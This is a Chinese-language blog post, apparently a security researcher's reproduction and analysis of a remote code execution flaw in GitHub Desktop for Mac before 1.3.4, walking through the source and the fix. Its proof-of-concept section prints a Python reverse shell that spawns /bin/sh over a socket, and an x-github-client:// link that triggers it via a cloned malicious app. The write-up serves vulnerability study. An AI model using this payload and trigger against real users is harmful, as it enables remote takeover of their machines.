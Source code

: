 ```yaml
---
layout: post
title: Github Desktop for Mac < 1.3.4 RCE 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;白天看到老外在H1-702 2018玩的项目，electron的案例不多，感觉有点意思复现下。

> 准备工作：

* https://github.com/desktop/desktop/archive/release-1.3.3.zip
* 恢复下.git/目录以及所需的文件
* yarn install
* yarn build:prod
* mv dist/GitHub Desktop-darwin-x64/GitHub Desktop.app /Applications


> 漏洞成因:

首先github的`Clone or download`按钮包含一个`Open in Desktop`的pull方式

验证时发现目前该方式的协议为`github-mac://`但早起版本的协议应该是`x-github-client://`，并且包含几个参数:

```
x-github-client://openRepo/https://github.com/user/repo?branch=master&filepath=README.md
```

app/src/lib/app-shell.ts

```
export const shell: IAppShell = {
	moveItemToTrash: electronShell.moveItemToTrash,
	beep: electronShell.beep,
	openExternal: path => {
		return new Promise<boolean>((resolve, reject) => {
			ipcRenderer.once(
				'open-external-result',
				(event: Electron.IpcMessageEvent, { result }: { result: boolean }) => {
					resolve(result)
				}
			)

			ipcRenderer.send('open-external', { path })
		})
	},
	showItemInFolder: path => {
		ipcRenderer.send('show-item-in-folder', { path })
	},
	openItem: electronShell.openItem,
}
```

ipcRenderer对象的`showItemInFolder`方法使用`show-item-in-folder`事件发送获取到的path

跟进app/src/main-process/main.ts

```
ipcMain.on(
	'show-item-in-folder',
	(event: Electron.IpcMessageEvent, { path }: { path: string }) => {
		Fs.stat(path, (err, stats) => {
			if (err) {
				log.error(`Unable to find file at '${path}'`, err)
				return
			}

			if (stats.isDirectory()) {
				openDirectorySafe(path)
			} else {
				shell.showItemInFolder(path)
			}
		})
	}
)
```

ipcMain对象监听到该事件消息后，fs库判断下是否为目录，如果是则传进`openDirectorySafe`。但没有考虑到mac系统下.app也是为目录的

```
> fs = require('fs')
> fs.stat('/Applications/GitHub Desktop.app',(err,stats)=>{console.log(stats.isDirectory())})
> true
```

跟进app/src/main-process/shell.ts

```
export function openDirectorySafe(path: string) {
	if (__DARWIN__) {
		const directoryURL = Url.format({
			pathname: path,
			protocol: 'file:',
			slashes: true,
		})

		shell.openExternal(directoryURL)
	} else {
		shell.openItem(path)
	}
}
```

判断如果是mac系统则`shell.openExternal`运行。

> POC:

作者编写的py版本<a target="_blank" href="https://github.com/0xACB/github-desktop-poc">POC</a>，并用Pyinstaller打包了起来

```
import socket,subprocess,os;

os.system("open -a calculator.app")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("localhost",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

本地监听，浏览器打开包含指定POC APP的链接：

```
x-github-client://openRepo/https://github.com/0xACB/github-desktop-poc?branch=master&filepath=osx/evil-app/rce.app
```

浏览器询问是否使用GitHub Desktop.app打开，确定并开始clone，随后反弹shell。

> Fixed:

fix方式很简单，判断不是mac系统最终才可以打开

```
-        if (stats.isDirectory()) {
+        if (!__DARWIN__ && stats.isDirectory()) {
```